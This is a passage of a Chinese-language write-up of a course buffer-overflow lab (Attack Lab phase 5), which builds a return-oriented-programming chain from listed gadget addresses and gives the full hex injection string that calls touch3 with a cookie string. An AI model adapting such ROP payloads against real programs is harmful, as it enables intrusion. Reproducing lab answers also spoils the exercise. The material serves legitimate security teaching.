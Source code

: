 分别对应：

1. 第 1 个 gadget 中指令的地址 `0x4019cc`
2. 偏移量 `offset` 的值（目前先用 `0xff` 占位）
3. 第 7 个 gadget 中指令的地址 `0x401a42`
4. 第 6 个 gadget 中指令的地址 `0x401a34`
5. 第 5 个 gadget 中指令的地址 `0x401a13`（`%rsi` 寄存器就位）
6. 第 3 个 gadget 中指令的地址 `0x401a06`
7. 第 2 个 gadget 中指令的地址 `0x4019a2`（`%rdi` 寄存器就位）
8. 第 4 个 gadget 中指令的地址 `0x4019d6`（得到字符串地址）
9. 第 2 个 gadget 中指令的地址 `0x4019a2`（传给 `%rdi` 寄存器）

##### 5.4.2 第 2 ~ 3 句指令

```asm
push   $0x4018fa
ret
```

同 [4.4.2](#442-第-2--3-句指令) 节，直接将函数 `touch3` 的地址保存在栈中即可，上一条指令结尾的 `ret` 指令将使函数返回到目标函数 `touch3`。

在栈中需要保存的内容为：

```text
fa 18 40 00 00 00 00 00             /* the address of touch3        */
```

表示函数 `touch3` 的地址 `0x4018fa`。

##### 5.4.3 确定偏移量的值

构造用于注入的字符串（初步）：

1. 输入任意 40 个字符填满缓冲区；
2. 输入由以上分析可知在栈中需要保存的内容；
3. 输入表示 `cookie` 的值的字符串。

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00             /* 40 bytes of trash            */
cc 19 40 00 00 00 00 00             /* popq   %rax                  */
ff 00 00 00 00 00 00 00             /* the value of offset          */
42 1a 40 00 00 00 00 00             /* movl   %eax,%edx             */
34 1a 40 00 00 00 00 00             /* movl   %edx,%ecx             */
13 1a 40 00 00 00 00 00             /* movl   %ecx,%esi             */
06 1a 40 00 00 00 00 00             /* movq   %rsp,%rax             */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
d6 19 40 00 00 00 00 00             /* leaq   (%rdi,%rsi,1),%rax    */
a2 19 40 00 00 00 00 00             /* movq   %rax,%rdi             */
fa 18 40 00 00 00 00 00             /* the address of touch3        */
35 39 62 39 39 37 66 61             /* the value of string          */
00
```
